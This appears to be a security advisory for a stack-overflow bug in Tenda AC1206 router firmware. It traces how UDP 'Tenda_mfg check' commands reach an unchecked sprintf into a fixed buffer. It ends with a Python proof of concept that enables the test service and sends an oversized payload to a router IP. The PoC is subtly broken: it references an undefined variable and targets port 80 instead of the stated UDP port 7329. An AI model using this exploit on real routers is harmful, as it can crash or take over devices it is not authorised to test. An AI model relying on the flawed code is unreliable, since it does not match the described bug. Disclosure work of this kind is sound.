

# Description


Tenda AC1206 `ate_Tenda_mfg_check_usb3` and `ate_Tenda_mfg_check_usb` has stack overflow vulnerability

[firmware download](https://static.tenda.com.cn/tdcweb/download/uploadfile/AC1206/US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.zip)

# Affected version


V15.03.06.23 and earlier

# details


When accessing `url:/goform/ate`, `TendaAte` will be called


The `TendaAte` function creates a thread and calls `ate_main_handle`, but, the recv_buf stack var size is ***4096***,  and recv from socket most ***0x1000***


In `ate_main_handle`, port number `7329` is opened, `udp` messages are received and processed, and the transmission message format is `command args`

The message is further processed by `ate_cmd_process`


When `command` is `Tenda_mfg`and `arg` is `check` or `check USB3.0`, the `ate_Tenda_mfg_check_usb ` or `ate_Tenda_mfg_check_usb3` function is called, the both functions are similar, like:


in `readUsb` function,  the variale `mntFileName` size is ***512*** char, but , there use `sprintf` function to format the two variables into `mntFileName`, there is no ckeck , And will cause stack overflow. maybe cause RCE, furtherly




poc:

```python
import socket
import time
import os

os.system('curl http://172.30.214.100/goform/ate')

time.sleep(3)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

server_address = ('172.30.214.100', 80)
command = b's' * 999
message = b'Tenda_mfg check'+ chars

try:
    print(f'Sending: {message}')
    sock.sendto(message, server_address)

    data, server = sock.recvfrom(4096)
    print(f'Received: {data}')

finally:

    sock.close()
```


